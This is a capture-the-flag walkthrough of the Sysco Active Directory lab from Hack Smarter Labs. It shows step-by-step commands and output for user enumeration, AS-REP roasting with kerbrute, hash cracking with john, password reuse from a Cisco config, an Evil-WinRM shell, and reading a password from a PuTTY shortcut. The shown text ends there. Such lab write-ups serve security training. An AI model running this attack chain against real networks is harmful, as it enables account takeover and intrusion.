In this walkthrough, we will be compromising Sysco, a medium-difficulty Active Directory lab from Hack Smarter Labs, starting from an external position with no credentials. The company website's team page gives us four names, and username-anarchy and kerbrute turn them into three valid domain accounts. One of them, `jack.dowland`, has Kerberos pre-authentication disabled, so kerbrute dumps his AS-REP hash, which cracks with john. His mailbox on a Roundcube webmail panel holds a router configuration sent to `lainey.moore`, and the Cisco enable secret inside it cracks to a password that also works for her domain account and gives us a WinRM shell. A PuTTY shortcut in her Documents folder carries a router password on its command line, and the same password works for `greg.shields`. His group, Group Policy Creator Owners, holds `GenericAll` over Default Domain Policy, so we push a scheduled task through the GPO that adds him to Administrators on the domain controller.


Created by: [LainKusanagi](https://www.hacksmarter.org/courses/18876893-1afd-443f-b448-0681b13e86ec)

Let's get started.

## Objective

The core objective of this external penetration test is to simulate a realistic, determined adversary to achieve Domain Administrator privileges within Sysco's Active Directory (AD) environment. Starting from an external position, we will focus on obtaining an initial foothold, performing lateral movement, and executing privilege escalation while successfully evading Antivirus (AV) and other security controls. This is a red-team exercise to find security weaknesses before a real attacker does.

## Scope

**Target:** `10.1.90.146`

## RustScan

We start with [RustScan](https://github.com/bee-san/RustScan) to find the open ports quickly. It hands them straight to Nmap, which identifies service versions with `-sV` and runs the default script set with `-sC` to pull banners, certificates, and other details.

```
rustscan -a 10.1.90.146 -- -sC -sV
```

```
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 126 Simple DNS Plus
80/tcp    open  http          syn-ack ttl 126 Apache httpd 2.4.58 ((Win64) OpenSSL/3.1.3 PHP/8.2.12)
|_http-title: Index - Sysco MSP
| http-methods: 
|   Supported Methods: HEAD GET POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-favicon: Unknown favicon MD5: DD229045B1B32B2F2407609235A23238
|_http-server-header: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
88/tcp    open  kerberos-sec  syn-ack ttl 126 Microsoft Windows Kerberos (server time: 2026-09-26 20:35:29Z)
135/tcp   open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 126 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: SYSCO.LOCAL, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 126
464/tcp   open  kpasswd5?     syn-ack ttl 126
593/tcp   open  ncacn_http    syn-ack ttl 126 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 126
3268/tcp  open  ldap          syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: SYSCO.LOCAL, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 126
3389/tcp  open  ms-wbt-server syn-ack ttl 126 Microsoft Terminal Services
|_ssl-date: 2026-09-26T20:36:56+00:00; -1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: SYSCO
|   NetBIOS_Domain_Name: SYSCO
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: SYSCO.LOCAL
|   DNS_Computer_Name: DC01.SYSCO.LOCAL
|   Product_Version: 10.0.20348
|_  System_Time: 2026-09-26T20:36:18+00:00
| ssl-cert: Subject: commonName=DC01.SYSCO.LOCAL
| Issuer: commonName=DC01.SYSCO.LOCAL
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-05-29T23:45:47
| Not valid after:  2026-11-28T23:45:47
| MD5:     ec3f 1383 3b82 1210 ec5f fbc1 f012 8e2c
| SHA-1:   ac7f a447 80ce 719e 96b4 2609 c6a5 6529 26bd 048b
| SHA-256: cc9b d77d 4e58 dc75 242b e3ea ed22 7aae db56 dacc 09ee a72f 5059 c17a 0798 f14e
5357/tcp  open  http          syn-ack ttl 126 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Service Unavailable
|_http-server-header: Microsoft-HTTPAPI/2.0
5985/tcp  open  http          syn-ack ttl 126 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack ttl 126 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49672/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49673/tcp open  ncacn_http    syn-ack ttl 126 Microsoft Windows RPC over HTTP 1.0
49678/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49720/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49727/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Standard domain controller ports across the board. DNS on 53, Kerberos on 88, LDAP on 389, LDAPS on 636, the global catalog on 3268 and 3269, SMB on 445, RDP on 3389, and WinRM on 5985, with Apache on 80 also exposed, which is not part of a default domain controller install. The LDAP banner gives us the domain as `SYSCO.LOCAL`, and the RDP certificate and NTLM info confirm the hostname as `DC01.SYSCO.LOCAL`. We add both to `/etc/hosts` before continuing.

## SMB Enumeration

With no credentials, we check what a null session and the Guest account get from SMB, starting with shares.

```
nxc smb 10.1.90.146 -u '' -p '' --shares
```

```
SMB         10.1.90.146     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SYSCO.LOCAL) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.90.146     445    DC01             [+] SYSCO.LOCAL\: 
SMB         10.1.90.146     445    DC01             [-] Error enumerating shares: STATUS_ACCESS_DENIED
```

The null session authenticates, but share enumeration is denied. We try Guest next.

```
nxc smb 10.1.90.146 -u 'Guest' -p '' --shares
```

```
SMB         10.1.90.146     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SYSCO.LOCAL) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.90.146     445    DC01             [-] SYSCO.LOCAL\Guest: STATUS_ACCOUNT_DISABLED 
```

Guest is disabled. We try users with the null session.

```
nxc smb 10.1.90.146 -u '' -p '' --users
```

```
SMB         10.1.90.146     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SYSCO.LOCAL) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.90.146     445    DC01             [+] SYSCO.LOCAL\: 
```

SAMR (Security Account Manager Remote) user enumeration returns nothing for the null session either, so we move to the web server.



*The null session denied shares and users, and the Guest account refused as disabled*

## HTTP (Port 80)

Port 80 serves the Sysco MSP site.



*The Sysco MSP site served by Apache on the domain controller*

Its Team section names four staff.


*The Team section listing four Sysco staff by name*

That gives us real names but not the domain's username format. [username-anarchy](https://github.com/urbanadventurer/username-anarchy) takes a list of full names and generates every common permutation, so we save the four names to `employees.txt` and build a candidate list from them.

```
./username-anarchy -i employees.txt > users.txt
```

```
cat users.txt
```

```
greg
gregshields
greg.shields
gregshie
gregs
g.shields
gshields
sgreg
s.greg
shieldsg
shields
shields.g
shields.greg
gs
sarah
sarahjhonson
sarah.jhonson
sarahjho
sarajhon
sarahj
s.jhonson
sjhonson
jsarah
j.sarah
jhonsons
jhonson
jhonson.s
jhonson.sarah
sj
jack
jackdowland
jack.dowland
jackdowl
jackd
j.dowland
jdowland
djack
d.jack
dowlandj
dowland
dowland.j
dowland.jack
jd
lainey
laineymoore
lainey.moore
laineymo
lainmoor
laineym
l.moore
lmoore
mlainey
m.lainey
moorel
moore
moore.l
moore.lainey
lm
```

We also brute-force directories on the site with feroxbuster.

```
feroxbuster -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-words.txt -u 'http://10.1.90.146/'
```

```
301      GET        9l       30w      336c http://10.1.90.146/roundcube => http://10.1.90.146/roundcube/
```

feroxbuster turns up a lot of directories, so the output above is trimmed to the one that sticks out: `/roundcube`, a Roundcube webmail login. We have no verified usernames or passwords yet, so we set it aside for now.


*The Roundcube webmail login served at /roundcube*

## Access as jack.dowland

[kerbrute](https://github.com/ropnop/kerbrute) checks usernames against Kerberos directly. It sends a ticket request for each name without pre-authentication, and the KDC (Key Distribution Center) answers differently for an account that exists. Without `--downgrade`, the AS-REP hash kerbrute dumps is AES256 (etype 18) and does not crack with john, so we add the flag to have it request RC4 instead.

```
./kerbrute userenum --dc 10.1.90.146 -d sysco.local ~/Desktop/ctf/hack_smarter_labs/active_directory/medium/sysco/users.txt --downgrade
```

```
    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 10/07/26 - Ronnie Flathers @ropnop

2026/10/07 19:36:42 >  Using downgraded encryption: arcfour-hmac-md5
2026/10/07 19:36:42 >  Using KDC(s):
2026/10/07 19:36:42 >   10.1.90.146:88

2026/10/07 19:36:42 >  [+] VALID USERNAME:       greg.shields@sysco.local
2026/10/07 19:36:42 >  [+] VALID USERNAME:       lainey.moore@sysco.local
2026/10/07 19:36:42 >  [+] jack.dowland has no pre auth required. Dumping hash to crack offline:
$krb5asrep$23$jack.dowland@SYSCO.LOCAL:a695ae192dc61231b81b7d0ab94e9e4a$5bd435183b2fbf33988a23952229bdda0974ebc8ebfb41ef4a0e83fb9a8c81c75b4f0214a49b4c547e8550302fcac8eb2a92a278789add9b97b6487c84d2df6c0a271c68cec2eb4b869fb59cca15991d1e509c832d029cade483487861f7d8954c41d96ff747314bffe7ac78791eeb18c333d5fc99d42e3013a298d181f639b709c35053802cda2373b8e5acbf059a48ce13ec2dddb174ebeef58892ef5251bfc763b6e2d23fecdaf5fbfd9e950887098b1c1da72c1f8306ad4e74dc35a0f08edcf9be632d9a40f5e68a5d271e791e80098c88be5b2a64bf2a209ee18213bb176b0f153954a57eb4aedc
2026/10/07 19:36:42 >  [+] VALID USERNAME:       jack.dowland@sysco.local
2026/10/07 19:36:42 >  Done! Tested 58 usernames (3 valid) in 0.454 seconds
```

Three of the generated names are live accounts, `greg.shields`, `lainey.moore`, and `jack.dowland`, all in `firstname.lastname` format. `jack.dowland` has pre-authentication disabled, so kerbrute dumps his `$krb5asrep$23$` hash.



*kerbrute confirming three valid usernames and dumping an RC4 AS-REP hash for jack.dowland*

Kerberos normally requires pre-authentication before the KDC returns anything, but an account with pre-authentication disabled gets an AS-REP handed to anyone who asks. Part of that response is encrypted with a key derived from the account's password, and that is the part we crack offline. We copy the hash into `jack_dowland_hash.txt` and crack it with john.

```
john jack_dowland_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

```
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
musicman1        ($krb5asrep$23$jack.dowland@SYSCO.LOCAL)     
1g 0:00:00:00 DONE (2026-10-07 19:36) 33.33g/s 2201Kp/s 2201Kc/s 2201KC/s bhie21..jorie
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Cracked.



*john recovering musicman1 from the jack.dowland AS-REP hash*

We validate `jack.dowland:musicman1` with NetExec.

```
nxc smb 10.1.90.146 -u 'jack.dowland' -p 'musicman1' --shares
```

```
SMB         10.1.90.146     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SYSCO.LOCAL) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.90.146     445    DC01             [+] SYSCO.LOCAL\jack.dowland:musicman1 
SMB         10.1.90.146     445    DC01             [*] Enumerated shares
SMB         10.1.90.146     445    DC01             Share           Permissions     Remark
SMB         10.1.90.146     445    DC01             -----           -----------     ------
SMB         10.1.90.146     445    DC01             ADMIN$                          Remote Admin
SMB         10.1.90.146     445    DC01             C$                              Default share
SMB         10.1.90.146     445    DC01             IPC$            READ            Remote IPC
SMB         10.1.90.146     445    DC01             NETLOGON        READ            Logon server share 
SMB         10.1.90.146     445    DC01             SYSVOL          READ            Logon server share
```



*Validating jack.dowland credentials with NetExec*

Credentials are valid, and the share list is the standard domain controller set with nothing custom on it.

## BloodHound Enumeration

One valid credential is enough to collect for BloodHound. We point NetExec at the DC for DNS with `--dns-server` so the collector can resolve the domain records it asks for.

```
nxc ldap 10.1.90.146 -u 'jack.dowland' -p 'musicman1' --bloodhound --collection All --dns-server 10.1.90.146
```

```
LDAP        10.1.90.146     389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:SYSCO.LOCAL) (signing:None) (channel binding:No TLS cert) 
LDAP        10.1.90.146     389    DC01             [+] SYSCO.LOCAL\jack.dowland:musicman1 
LDAP        10.1.90.146     389    DC01             Resolved collection methods: objectprops, session, acl, trusts, psremote, localadmin, group, dcom, container, rdp
LDAP        10.1.90.146     389    DC01             Done in 0M 21S
LDAP        10.1.90.146     389    DC01             Compressing output into /home/kali/.nxc/logs/DC01_10.1.90.146_2026-09-26_174012_bloodhound.zip
```

We mark `jack.dowland` as owned, but BloodHound shows no attack paths from the account, so we go back to the Roundcube panel.

## Access as lainey.moore

The Roundcube login takes the `jack.dowland` credentials. His Sent folder holds an email to `lainey.moore` from the tier 1 helpdesk, with a client's router configuration attached.



*The Sent folder in jack.dowland's mailbox with the router configuration emailed to lainey.moore*

The message asks her to troubleshoot a router she configured recently.

```
Hello,

Client made a ticket on the new router you configured recently and
provided the attached configuration file, can you please check it and
see what the issue may be and remote into the client router to fix it.

Thanks.

-Helpdesk Tier 1 Team
```

The attached configuration carries an enable secret, the hashed password that guards privileged mode on a Cisco device.

```
enable secret 5 $1$mERr$isugnYiHsjHT.i.tc2GDY.
```

hashid identifies a hash format from its structure, so we run it over the value.

```
hashid '$1$mERr$isugnYiHsjHT.i.tc2GDY.'
```

```
Analyzing '$1$mERr$isugnYiHsjHT.i.tc2GDY.'
[+] MD5 Crypt 
[+] Cisco-IOS(MD5) 
[+] FreeBSD MD5 
```

MD5-crypt, which Cisco calls type 5, the `5` in the config line. We save it to `router_hash.txt` and run it through john.

```
john router_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

```
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Chocolate1       (?)     
1g 0:00:00:00 DONE (2026-09-26 18:20) 1.754g/s 103747p/s 103747c/s 103747C/s chris93..1softball
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Cracked.



*john recovering Chocolate1 from the Cisco type 5 enable secret*

The email credits `lainey.moore` with configuring this router, so we try the password against her domain account.

```
nxc smb 10.1.90.146 -u 'lainey.moore' -p 'Chocolate1' --shares
```

```
SMB         10.1.90.146     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SYSCO.LOCAL) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.90.146     445    DC01             [+] SYSCO.LOCAL\lainey.moore:Chocolate1 
SMB         10.1.90.146     445    DC01             [*] Enumerated shares
SMB         10.1.90.146     445    DC01             Share           Permissions     Remark
SMB         10.1.90.146     445    DC01             -----           -----------     ------
SMB         10.1.90.146     445    DC01             ADMIN$                          Remote Admin
SMB         10.1.90.146     445    DC01             C$                              Default share
SMB         10.1.90.146     445    DC01             IPC$            READ            Remote IPC
SMB         10.1.90.146     445    DC01             NETLOGON        READ            Logon server share 
SMB         10.1.90.146     445    DC01             SYSVOL          READ            Logon server share 
```



*Validating lainey.moore credentials with NetExec*

The enable secret on the router she configured is also her domain password. The share list is the same default set `jack.dowland` sees.

## Shell as lainey.moore (user.txt)

We mark `lainey.moore` as owned. BloodHound shows her in Remote Management Users, the group that governs WinRM access.



*BloodHound showing lainey.moore membership in Remote Management Users*

We connect with Evil-WinRM.

```
evil-winrm -i 10.1.90.146 -u 'lainey.moore' -p 'Chocolate1'
```



*Evil-WinRM session on DC01 as lainey.moore*

`user.txt` is on her desktop.



*The Evil-WinRM session with user.txt listed on the lainey.moore desktop*

Her Documents folder holds `notes.txt` and a PuTTY shortcut named `Putty - HS Router login.lnk`. We read the notes first.

```
type notes.txt
```

```
-Ssh to the 10.0.0.1 router with credentials provided by sysadmin to update ACLs for HS company
-Fix errors in config provided by tier 1 for Minicorp's new office router
```



*notes.txt and the PuTTY router shortcut in lainey.moore's Documents folder*

The first note is an SSH login to the HS router, which is what the shortcut is named for. A shortcut can carry command-line arguments, so we download it to read on our own machine.

```
download "Putty - HS Router login.lnk"
```

## Access as greg.shields

lnkinfo, from the `liblnk-utils` package, parses a Windows shortcut and prints its target, working directory, and command-line arguments.

```
lnkinfo Putty\ -\ HS\ Router\ login.lnk
```

```
lnkinfo 20240423

Windows Shortcut information:
        Contains a link target identifier
        Contains a relative path string
        Contains a working directory string
        Contains a command line arguments string
        Number of data blocks           : 2

Link information:
        Creation time                   : Oct 18, 2025 05:24:50.324874400 UTC
        Modification time               : Oct 18, 2025 05:24:54.226696600 UTC
        Access time                     : Oct 18, 2025 05:24:54.226696600 UTC
        File size                       : 1709672 bytes
        Icon index                      : 0
        Show Window value               : 0x00000001
        Hot Key value                   : 0
        File attribute flags            : 0x00000020
                Should be archived (FILE_ATTRIBUTE_ARCHIVE)
        Drive type                      : Fixed (3)
        Drive serial number             : 0x503f9bb2
        Volume label                    : 
        Local path                      : C:\\Users\\lainey.moore\\Documents\\putty.exe
        Relative path                   : .\\putty.exe
        Working directory               : C:\\Users\\lainey.moore\\Documents
        Command line arguments          : -ssh netadmin@10.0.0.1 -pw 5y5coSmarter2025!!!

Link target identifier:
        Shell item list
                Number of items         : 3

        Shell item: 1
                Item type               : Root folder
                Class type indicator    : 0x1f (Root folder)
                Shell folder identifier : 20d04fe0-3aea-1069-a2d8-08002b30309d
                Shell folder name       : My Computer

        Shell item: 2
                Item type               : Volume
                Class type indicator    : 0x2e (Volume)

        Shell item: 3
                Item type               : File entry
